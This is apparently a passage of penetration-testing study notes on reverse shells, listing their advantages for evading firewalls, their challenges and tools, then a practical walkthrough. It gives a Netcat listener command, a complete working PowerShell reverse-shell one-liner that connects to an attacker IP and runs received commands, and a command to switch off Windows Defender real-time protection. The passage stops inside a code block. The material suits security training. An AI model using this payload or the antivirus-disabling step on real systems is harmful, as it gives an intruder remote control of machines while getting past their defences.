 ### Advantages

- **Stealth**: Outbound connections are less likely to be blocked or detected by firewalls, as admins often overlook them.
- **Firewall Evasion**: Bypasses strict inbound firewall rules and NAT/PAT configurations.
- **Common Ports**: Using ports like 443 (HTTPS) increases the chance of evading outbound firewall restrictions.

### Challenges

- **Payload Delivery**: Requires a method to execute the payload on the target (e.g., command injection, unrestricted file upload).
- **Antivirus (AV)**: AV software (e.g., Windows Defender) may block payloads, requiring evasion techniques or disabling AV.
- **Deep Packet Inspection**: Advanced firewalls with Layer 7 visibility may detect reverse shells by analyzing packet contents.

### Tools

- **Netcat (nc)**: Used on the attack box to start a listener (e.g., `nc -lvnp 443`).
- **PowerShell**: Native to Windows, ideal for reverse shells on Windows targets.
- **Resources**: Reverse Shell Cheat Sheet provides commands, scripts, and generators for various OSes.

## Practical Example: PowerShell Reverse Shell on Windows

- **Scenario**: Establishing a reverse shell on a Windows target using PowerShell, with Netcat listener on the attack box.
- **Steps**:
    1. **Start Listener on Attack Box**:
        
        ```bash
        sudo nc -lvnp 443
        
        ```
        
        - Listens on port 443 (HTTPS) to evade outbound firewall rules.
        - Output: `Listening on 0.0.0.0 443`.
    2. **Execute Payload on Target (Windows)**:
        - Open command prompt and run:
            
            ```powershell
            powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
            
            ```
            
        - Note: If blocked by Windows Defender, disable AV (admin PowerShell):
            
            ```powershell
            Set-MpPreference -DisableRealtimeMonitoring $true
            